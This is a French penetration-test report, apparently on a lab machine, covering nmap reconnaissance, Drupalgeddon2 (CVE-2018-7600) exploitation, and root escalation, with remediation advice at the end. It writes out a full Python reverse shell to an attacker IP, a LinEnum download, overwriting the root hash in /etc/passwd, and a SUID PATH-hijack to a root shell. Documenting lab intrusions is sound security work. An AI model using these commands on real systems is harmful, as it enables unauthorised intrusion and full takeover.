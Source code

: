# **Rapport de Test d'Intrusion sur la machine 192.168.74.145**

## **1. Introduction**

Ce rapport documente un test d’intrusion mené sur la machine **192.168.74.145**, découverte sur le réseau via un scan Nmap. L’objectif de ce test est de :

- **Effectuer une reconnaissance approfondie** pour identifier les services exposés et leurs vulnérabilités.
- **Exploiter des failles connues**, notamment sur **Drupal 8** et **Apache Tomcat**.
- **Obtenir un accès initial** sur le serveur.
- **Élever les privilèges** pour obtenir un shell root et un contrôle total de la machine.

---

## **2. Reconnaissance et Scan Initial**

### **2.1 Détection de la machine**

L'adresse IP de la cible a été identifiée à l'aide de la commande suivante :

```bash
nmap -sN 192.168.74.0/24
```

**Résultat :** La machine cible a été détectée à **192.168.74.145**.

### **2.2 Scan complet des services actifs**

Un scan **Nmap approfondi** a été réalisé avec les scripts par défaut et la détection des versions des services :

```bash
nmap -sSCV -p- 192.168.74.145
```

### **2.3 Résultats du scan Nmap**

|**Port**|**État**|**Service**|**Version**|
|---|---|---|---|
|22/tcp|open|SSH|OpenSSH 6.6.1p1 (Ubuntu 2ubuntu2.8)|
|80/tcp|open|HTTP|Apache 2.4.7 (Ubuntu)|
|111/tcp|open|RPCBind|Version 2-4 (RPC #100000)|
|8080/tcp|open|HTTP|Apache Tomcat/Coyote JSP engine 1.1|

Le scan a révélé plusieurs services critiques :

- **Un serveur Apache avec Drupal 8 sur le port 80**
- **Un serveur Apache Tomcat sur le port 8080**, avec les méthodes HTTP **PUT et DELETE activées**
- **Un service SSH (OpenSSH 6.6.1p1)**, qui peut être utilisé pour maintenir un accès persistant
- **Un service RPC Bind (port 111)**, potentiellement exploitable

---

## **3. Exploitation de Drupal 8 - CVE-2018-7600 ("Drupalgeddon2")**

### **3.1 Identification de la vulnérabilité**

L’empreinte de la machine a révélé qu’elle tourne sous **Drupal 8**, ce qui a conduit à une recherche de vulnérabilités connues.  
J’ai trouvé sur **Exploit-DB** un exploit en Ruby pour **CVE-2018-7600**, permettant une exécution de code à distance (RCE).

### **3.2 Exploitation avec Drupalgeddon2**

J’ai copié le code et l’ai enregistré dans un fichier `drupal.rb`.

Exécution de l’exploit :

```ruby
ruby drupal.rb http://192.168.74.145/
```

**Résultat :**

- Connexion réussie à la machine cible avec les **droits www-data**.
- L’accès est restreint, mais permet d’exécuter des commandes à distance.

---

## **4. Obtention d’un Shell Inversé (Reverse Shell)**

### **4.1 Ouverture d’un listener sur l’attaquant**

```bash
nc -nlvp 9999
```

### **4.2 Exécution du Reverse Shell Python sur la cible**

Pour améliorer l’interaction avec la machine cible, j’ai exécuté un **reverse shell en Python** :

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.74.135",9999));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

### **4.3 Amélioration du shell**

Une fois connecté, j’ai stabilisé le shell en exécutant :

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

Cela permet d’avoir un terminal plus stable et de pouvoir utiliser les commandes comme `clear`.

---

## **5. Élévation de Privilèges**

### **5.1 Analyse avec LinEnum**

Pour identifier des failles locales, j’ai téléchargé et exécuté **LinEnum.sh** :

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
bash LinEnum.sh
```

**Pourquoi dans `/tmp/` ?**

- Ce dossier est **temporaire**, ce qui signifie que les fichiers sont supprimés après un redémarrage.
- Les **autres utilisateurs** du système ne remarqueront pas sa présence.

### **5.2 Résultats de LinEnum**

- **Permissions incorrectes sur `/etc/passwd`**.
- Présence d’un **utilisateur indishell** avec un **mot de passe hashé** :

```bash
indishell:$6$AunCdsxZ$OBxuMf0a/GqstthT4LEW8RGZxepGL7C3jHMk/IFyhLCTJ/.0fo/9Aa.s134i80zAr1HtdyICiogwDAXzG0NWZ0
```

### **5.3 Identification du hash**

Le hash a été identifié via **hashes.com** comme étant **SHA512crypt (Unix) - Format $6$**.

### **5.4 Contournement de l'authentification root**

Méthode 1 - **Remplacement du hash root**

Génération d’un hash SHA512 pour un nouveau mot de passe :

```python
import crypt
hashed = crypt.crypt("mypassword", crypt.mksalt(crypt.METHOD_SHA512))
print(hashed)
```

Ensuite, **remplacement du hash root** dans `/etc/passwd` et connexion en SSH avec le nouveau mot de passe.

---

## **6. Alternative d’élévation via un binaire SUID**

### **6.1 Recherche de fichiers SUID**

```bash
find / -perm -4000 2> /dev/null
```

**Résultat :**

```
/opt/s
/sbin/mount.nfs
/sudo
/passwd
/su
```

### **6.2 Exploitation de `/opt/s`**

Ce binaire exécute **scp** pour copier des fichiers système.

En modifiant le **PATH** pour utiliser une version malveillante de `scp` :

```bash
echo "/bin/bash" > /tmp/scp
chmod +x /tmp/scp
export PATH=/tmp:$PATH
/opt/s
```

Cela exécute un **shell root**.

---

## **7. Conclusion et Recommandations**

Grâce à l’exploitation de **Drupalgeddon2**, nous avons pu obtenir un accès initial en tant que **www-data**. Ensuite, nous avons escaladé nos privilèges grâce :

- **Au remplacement du hash root** via un accès en écriture à `/etc/passwd`.
- **À l’exploitation d’un binaire SUID** (`/opt/s`).

### **Vulnérabilités exploitées :**

✅ **CVE-2018-7600 (Drupalgeddon2) :** Exécution de code à distance sur Drupal 8.  
✅ **Reverse Shell Python :** Connexion interactive avec la machine cible.  
✅ **Permissions incorrectes sur `/etc/passwd` :** Remplacement du mot de passe root.  
✅ **Binaire SUID mal configuré :** Exécution d’un shell root via `/opt/s`.

### **Recommandations de Sécurité :**

🔒 **Mettre à jour Drupal 8 pour corriger CVE-2018-7600.**  
🔒 **Restreindre les permissions sur `/etc/passwd`.**  
🔒 **Désactiver ou sécuriser les fichiers SUID comme `/opt/s`.**  
🔒 **Restreindre les méthodes HTTP PUT et DELETE sur Tomcat.**

**Ce test démontre l’importance de maintenir un système sécurisé pour éviter une compromission totale.** 🚀